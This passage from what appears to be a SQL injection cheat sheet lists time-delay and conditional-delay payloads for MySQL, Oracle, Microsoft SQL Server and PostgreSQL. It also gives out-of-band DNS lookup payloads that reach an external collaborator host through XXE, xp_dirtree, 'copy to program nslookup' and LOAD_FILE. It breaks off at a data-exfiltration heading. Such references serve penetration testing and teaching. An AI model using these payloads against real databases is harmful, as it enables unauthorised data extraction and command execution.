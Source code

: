 MySQL

`SELECT SLEEP(10)`

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`

Microsoft

`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle

The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  
`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  
  
The following technique works on fully patched Oracle installations, but requires elevated privileges:  
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`

Microsoft

`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`

PostgreSQL

`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`

MySQL

The following techniques work on Windows only:  
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

## DNS lookup with data exfiltration
